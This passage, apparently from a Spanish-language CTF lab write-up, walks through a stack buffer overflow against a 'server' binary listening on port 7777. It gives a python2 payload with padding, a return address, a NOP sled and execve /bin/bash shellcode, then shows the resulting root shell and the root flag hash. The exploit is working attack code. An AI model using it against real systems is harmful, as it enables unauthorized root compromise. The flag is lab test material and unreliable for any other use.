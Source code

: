 ```shell
python2 -c 'print b"A"*76 + b"\xb0\xd3\xff\xff" + b"\x90"*200 + b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"' | ./sender <IP> 7777
```

> NOTA:

Podremos ver `shell's` en hexadecimal en la siguiente pagina:

URL = [Pagina Shell-Storm](https://shell-storm.org/shellcode/index.html)

Info:

```
Conectado al servidor en 172.17.0.3:7777
Introduce los datos para enviar: Datos enviados: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������j
                X�Rfh-p��Rjhh/bash/bin��RQS��
```

Y si nos vamos donde teniamos el binario `server` escuchando, veremos que hemos obtenido una shell como el usuario `root`:

```
Servidor escuchando en el puerto 7777...
Conexión aceptada de 172.17.0.1:53472
Datos recibidos: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������j
                                                                                                                                             X�Rfh-p��Rjhh/bash/bin��RQS��

Procesado: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������j
                                                                                                                                       X�Rfh-p��Rjhh/bash/bin��RQS��

bash-5.2# whoami
root
```

Por lo que leeremos la flag de `root`.

> root.txt

```
7b99571a3a54ade50fec6091cb42e9ab
```
